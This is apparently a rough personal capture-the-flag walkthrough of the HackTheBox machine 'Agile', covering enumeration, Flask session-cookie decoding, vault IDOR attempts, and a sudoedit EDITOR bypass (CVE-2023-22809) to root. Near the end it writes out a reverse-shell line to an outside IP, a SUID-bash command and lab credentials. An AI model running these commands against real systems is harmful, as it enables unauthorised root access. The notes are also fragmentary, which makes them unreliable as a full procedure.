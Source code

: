 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


port 80 is open

echo "10.10.11.203 superpass.htb" >> /etc/hosts

on account login we have sql alchemy

![](20230627071229.png)

when searching for vault and flask it seemse there is vault-consul flask repo taht is being used

```
sqlalchemy.exc.OperationalError: (pymysql.err.OperationalError) (2006, "MySQL server has gone away (BrokenPipeError(32, 'Broken pipe'))")
[SQL: SELECT users.id AS users_id, users.username AS users_username, users.hashed_password AS users_hashed_password 
FROM users 
WHERE users.username = %(username_1)s 
 LIMIT %(param_1)s]
[parameters: {'username_1': 'root', 'param_1': 1}]
(Background on this error at: https://sqlalche.me/e/14/e3q8)
```

we can check for sql injection here

continuing with enumerating the directories

we can use wapalyzer to look into the tech stack used for the website

Popper
jQuery 3.3.1
_hyperscript
Htmx
Bootstrap 4.1.3

![](20230628021152.png)

There is no injection in this vault.

trying in burpsuite

GET /vault HTTP/1.1
Host: superpass.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://superpass.htb/account/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwPlw.tht5dBfc0fqoWx__ELOSGA9bCaw
Connection: close


POST /v1/leaks:lookupSingle HTTP/1.1
Host: passwordsleakcheck-pa.googleapis.com
Content-Length: 43
X-Goog-Api-Key: dummytoken
Content-Type: application/x-protobuf
Sec-Fetch-Site: none
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


  !ßÜºd¨êÕBà#ð0ÀE:m ÀPÙ^'­wªÄ


### things to learn

cookie unsign in flask-unsign

or using the site
https://www.kirsle.net/wizards/flask-session.cgi

```
{
    "_fresh": true,
    "_id": "f1758cd40a69e453c79b8f231b7bfa827162a260ddf6d0c8f913e92be25a87b35c36a745c4783f6cdcf56abcc4610d9e99b22dfea4359e9fd115001c23fe74b4",
    "_user_id": "10"
}

```

GET /vault/edit_row/10 HTTP/1.1
Host: superpass.htb
HX-Request: true
HX-Current-URL: http://superpass.htb/vault
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: */*
Referer: http://superpass.htb/vault
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwkuw.A-ubmOw9-8SGSA7Ci5BQ6zf2hpw
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Jun 2023 12:18:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 690

<tr>
    <td>
        
        <a hx-post="/vault/update/10" 
            hx-include="closest tr"
            hx-trigger="click, keydown[key=='Enter'] from:closest tr">
            <i class="fas fa-save"></i>
        </a>
        <a hx-get="/vault/row/10" 
            hx-trigger="click, keydown[key=='Escape'] from:closest tr">
            <i class="fas fa-undo"></i>
        </a>
        
    </td>
    <td><input type="text" name="url" placeholder=" site" value="asdfsd" /></td>
    <td><input type="text" name="username" placeholder=" username" value="asdfsada" /></td>
    <td><input type="text" name="password" placeholder=" password" value="865b8919c771sdfasdf4dd5bf9f" /></td>
</tr>

we can try and bruteforce to edit the row endpoints

![](20230628082901.png)

But none of that seems to be working.

Ideally I should have gotten 
corum and 
5db7caa1d13cc37c9fc2


![](20230630022009.png)

found out that there is an experimental server here

after netstat pantu

and using chisel brought it ot localhost

at /vaulr/row/1

i should have found edwards password but i didnt


agile edwards d07867c6267dcb5df0af

[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt


edwards@agile:~$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:~$ sudo -u dev_admin sudoedit /app/config_test.json

chmod u+s /bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.24/9001 <&1 &'

edwards@agile:~$ bash -p
root@agile:~# whoami
root
root@agile:~# cat /root/root.txt
d096bf0665aa1d99f6d85b854496baa6


https://www.vicarius.io/blog/cve-2023-22809-sudoedit-bypass-analysis

adding a reverse shell gave me the connection
![](20230701204658.png)
